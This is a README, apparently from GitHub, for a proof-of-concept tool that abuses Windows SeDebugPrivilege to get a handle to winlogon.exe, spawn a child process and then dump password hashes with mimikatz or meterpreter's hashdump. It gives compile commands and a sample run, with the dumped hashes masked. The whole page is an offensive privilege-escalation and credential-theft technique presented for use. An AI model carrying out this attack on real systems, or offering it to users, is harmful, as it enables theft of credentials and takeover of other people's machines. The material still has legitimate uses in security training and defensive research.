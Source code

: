 # SeDebugPrivilege
Abuse the SeDebugPrivilege, the holder of this token can debug another process, like reading and writing to that process' memory.

## POC Info :
This POC Will not give you NT SYSTEM Shell but allow you to dump all the hashes either using mimikatz.exe or by spawning a meterpreter shell and then use the hashdump from msf.

## Compile the POC :
### On linux OS:
```bash
csc sedp.cs
```
### On Windows OS :
Visual Studio is your friend.

## Demonstration : 
```powershell
PS C:\SeDebugPrivilege> .\sedp.exe
.\sedp.exe
[*] If you have SeDebugPrivilege, you can get handles from privileged processes.
[*] This PoC tries to spawn cmd.exe as a winlogon.exe's child process.
[>] Searching winlogon PID.
[+] PID of winlogon: 552
[>] Trying to get handle to winlogon.
[+] Got handle to winlogon with PROCESS_ALL_ACCESS (hProcess = 0x320).
[+] New process is created successfully.
    |-> PID : 1468
    |-> TID : 2756
```

Now dump the hashes : 
```bash
meterpreter > hashdump
Administrator:500:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::

```
